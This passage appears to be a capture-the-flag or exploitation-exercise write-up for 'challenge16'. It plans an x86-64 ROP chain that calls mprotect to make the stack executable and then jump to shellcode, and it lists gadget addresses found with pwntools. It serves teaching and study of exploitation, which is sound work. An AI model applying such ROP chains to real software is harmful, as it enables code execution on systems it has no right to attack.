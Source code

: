 With x86-64 bit function call convention: RDI, RSI, RDX

According to http://syscalls.kernelgrok.com/ sys_mprotect is syscall nr is  0x7d.
x86-64 bit system call convention is: RDI, RSI, RDX (syscall in RAX).


## ROP chain plan

We'll do the following ROP chain:

- pop RAX; ret      // <-- SIP is here
- 0x7d              // rax = sys_mprotect
- pop RDI; ret
- addr              // rdi = addr of stack with shellcode
- pop RSI; ret
- 4096              // rsi = size of stack
- pop RDX; ret
- 0x7               // rdp = stack permissions (RWX)
- syscall; ret      // invoke syscall
- addr of shellcode // will invoke our shellcode


## Find gadgets

We need five gadgets:
- pop RAX
- pop RDI
- pop RSI
- pop RDX
- syscall

Pwntools can help us find them. See `print-gadgets.py`:

```
~/challenges/challenge16$ ./print-gadgets.py challenge16
...
 4554474: Gadget(0x457eea, ['add rsp, 0x98', 'ret'], [], 0xa0),
 4554475: Gadget(0x457eeb, ['add esp, 0x98', 'ret'], [], 0xa0),
 4559101: Gadget(0x4590fd, ['add rsp, 0x38', 'ret'], [], 0x40),
 4559102: Gadget(0x4590fe, ['add esp, 0x38', 'ret'], [], 0x40),
 4581157: Gadget(0x45e725, ['add esp, 0x18', 'pop rbx', 'pop rbp', 'pop r12', 'pop r13', 'ret'], ['rbx', 'rbp', 'r12', 'r13'], 0x40),
 4619734: Gadget(0x467dd6, ['add esp, 0x68', 'pop rbx', 'pop rbp', 'pop r12', 'pop r13', 'ret'], ['rbx', 'rbp', 'r12', 'r13'], 0x90),
 4622845: Gadget(0x4689fd, ['add rsp, 8', 'pop rbp', 'pop r12', 'ret'], ['rbp', 'r12'], 0x20),
 4622846: Gadget(0x4689fe, ['add esp, 8', 'pop rbp', 'pop r12', 'ret'], ['rbp', 'r12'], 0x20),
 4623262: Gadget(0x468b9e, ['add esp, 0xa8', 'pop rbp', 'pop r12', 'ret'], ['rbp', 'r12'], 0xc0),
 4668502: Gadget(0x473c56, ['pop rax', 'pop rdx', 'pop rbx', 'ret'], ['rax', 'rdx', 'rbx'], 0x20),
 4668503: Gadget(0x473c57, ['pop rdx', 'pop rbx', 'ret'], ['rdx', 'rbx'], 0x18),
 4668973: Gadget(0x473e2d, ['add rsp, 0x48', 'ret'], [], 0x50),
 4668974: Gadget(0x473e2e, ['add esp, 0x48', 'ret'], [], 0x50),
 4669856: Gadget(0x4741a0, ['add rsp, 0x30', 'pop rbp', 'ret'], ['rbp'], 0x40),
 4669857: Gadget(0x4741a1, ['add esp, 0x30', 'pop rbp', 'ret'], ['rbp'], 0x40),
 4676136: Gadget(0x475a28, ['pop rbp', 'pop rbx', 'ret'], ['rbp', 'rbx'], 0x18),
 4702008: Gadget(0x47bf38, ['add rsp, 0x38', 'pop rbx', 'pop r14', 'ret'], ['rbx', 'r14'], 0x50),
 4702009: Gadget(0x47bf39, ['add esp, 0x38', 'pop rbx', 'pop r14', 'ret'], ['rbx', 'r14'], 0x50),
 4702012: Gadget(0x47bf3c, ['pop rbx', 'pop r14', 'ret'], ['rbx', 'r14'], 0x18)}
Useful gadgets:
Gadget(0x446ef3, ['pop rax', 'ret'], ['rax'], 0x10)
Gadget(0x40178e, ['pop rdi', 'ret'], ['rdi'], 0x10)
Gadget(0x4078be, ['pop rsi', 'ret'], ['rsi'], 0x10)
Gadget(0x4016ab, ['pop rdx', 'ret'], ['rdx'], 0x10)
```
